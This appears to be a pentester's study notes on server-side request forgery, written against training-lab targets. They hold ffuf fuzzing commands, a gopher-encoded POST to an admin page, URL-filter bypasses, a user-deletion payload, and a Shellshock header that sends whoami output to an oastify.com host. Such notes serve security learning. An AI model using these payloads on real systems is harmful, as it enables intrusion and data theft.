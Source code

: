 https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md
##### Fuzz to check open ports:
```bash
ffuf -w ports.txt -u http://10.129.82.103/index.php -X POST -d "dateserver=http://localhost:FUZZ&date=2024-01-01"  -H "Content-Type: application/x-www-form-urlencoded"  -fr 'Failed'
```
[[ffuf]]

##### Fuzz to find available page
```bash
ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"
```

##### Gopher
[[gopher]]
Send arbitrary bytes to a TCP socket.
Request:
```
POST /admin.php HTTP/1.1
Host: dateserver.htb
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

adminpw=admin
```
URL encode it:
```
gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin
```
URL generator:
https://github.com/tarunkant/Gopherus

### Blind SSRF

Burp collaborator replacements:
https://app.requestbin.net/
[Interactsh | Web Client](https://app.interactsh.com/#/)
[Webhook.site - Test, transform and automate Web requests and emails](https://webhook.site/#!/view/295f010b-22b7-4a69-a790-2ed9ff4b8a0e)

#### Prevention
https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html

#### Blacklist bypass
#encoding
- Use an alternative IP representation of `127.0.0.1`, such as `2130706433`, `017700000001`, or `127.1`.
- Register your own domain name that resolves to `127.0.0.1`. You can use `spoofed.burpcollaborator.net` for this purpose.
- Obfuscate blocked strings using URL encoding or case variation.
- Provide a URL that you control, which redirects to the target URL. Try using different redirect codes, as well as different protocols for the target URL. For example, switching from an `http:` to `https:` URL during the redirect has been shown to bypass some anti-SSRF filters.
* Double URL encode
##### Whitelist bypass
* `https://expected-host:fakepassword@evil-host`
* `https://evil-host#expected-host`
* `https://expected-host.evil-host`
* Open redirects
* URL-encode, double URL-encode
Example:
```
stockApi=http%3A%2F%2Flocalhost:80%2523@stock.weliketoshop.net/admin/delete?username=carlos
```
##### Attack surfaces
* Partial URLs in requests
* XML - SSRF via XXE
* Referer

#### Shellshock exploitation
Use #burp Collaborator Everywhere extension to detect vulnerable for SSRF headers.
Payload example:
```http
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).4gl54yveqtl0rtvr3fq0s943jupldf14.oastify.com
```
